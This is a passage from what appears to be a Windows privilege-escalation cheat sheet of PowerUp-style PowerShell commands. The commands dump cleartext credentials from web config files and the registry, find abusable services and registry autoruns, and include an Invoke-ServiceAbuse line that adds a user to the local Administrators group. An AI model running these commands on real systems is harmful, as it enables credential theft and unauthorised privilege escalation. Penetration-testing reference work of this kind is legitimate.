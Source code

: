     # Get cleartext credentials and encrypted strings from web config files
    Get-Webconfig
    
    # Get current user tokens and privileges
    Get-ProcessTokenPrivilege
    ```

    

  - Services

    ```
    # Get services with unquoted paths and spaces
    Get-ServiceUnquoted -Verbose
    
    # Get services where current user can write to binary path
    Get-ModifiableServiceFile -Verbose
    
    #Get the services whose configuration the current user can modify
    Get-ModifiableService -Verbose
    
    # Exploit vulnerable service 
    Invoke-ServiceAbuse -Name "Vuln-Service" -Command "net localgroup Administrators security.local\moe /add"
    ```

    

  - Registry

    ```
    # Checks if MSI files are always installed in context of SYSTEM
    Get-RegistryAlwaysInstallElevated
    
    # Checks if any autologon credentials exists in registry locations
    Get-RegistryAutologon
    
    # Gets autoruns where the current user can modify the script or binary
    Get-ModifiableRegistryAutoRun
    ```
